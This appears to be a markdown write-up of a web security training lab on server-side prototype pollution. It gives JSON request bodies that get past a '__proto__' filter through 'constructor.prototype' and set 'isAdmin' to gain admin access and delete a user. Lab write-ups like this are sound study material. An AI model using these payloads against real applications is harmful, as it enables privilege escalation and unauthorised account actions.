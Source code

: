             "status": 555
        }
    }
    ```
## Lab: Bypassing flawed input filters for server-side prototype pollution 
1. Login to account
2. Change / Modify the address 
3. Update the json object with the following 
    ```json
    {
    "address_line_1": "Wiener HQs",
    "address_line_2": "One Wiener Way",
    "city": "Wienerville",
    "postcode": "BU1 1RP",
    "country": "UK",
    "sessionId": "HQBz7c9cyKO76s0us9bUl6wFRQHkIiYC",
    "__proto__": {
        "json space": 10
        }
    }
    ```
    It didn't worked
4. Now update the json object with the following

    ```json 
    {
    "address_line_1": "Wiener HQs",
    "address_line_2": "One Wiener Way",
    "city": "Wienerville",
    "postcode": "BU1 1RP",
    "country": "UK",
    "sessionId": "HQBz7c9cyKO76s0us9bUl6wFRQHkIiYC",
    "constructor": {
        "prototype": {
        "json spaces": 10
        }
    }
    }
    ```
    In burp response tab change prettify to raw
5. YOu can notice the difference 
6. Now Send the following request 

    ```json 
    {
    "address_line_1": "Wiener HQs",
    "address_line_2": "One Wiener Way",
    "city": "Wienerville",
    "postcode": "BU1 1RP",
    "country": "UK",
    "sessionId": "HQBz7c9cyKO76s0us9bUl6wFRQHkIiYC",
    "constructor": {
        "prototype": {
        "isAdmin": true
        }
    }
    }
    ```
7. Now we got the access of admin panel and we can delete carlos user and solve the lab
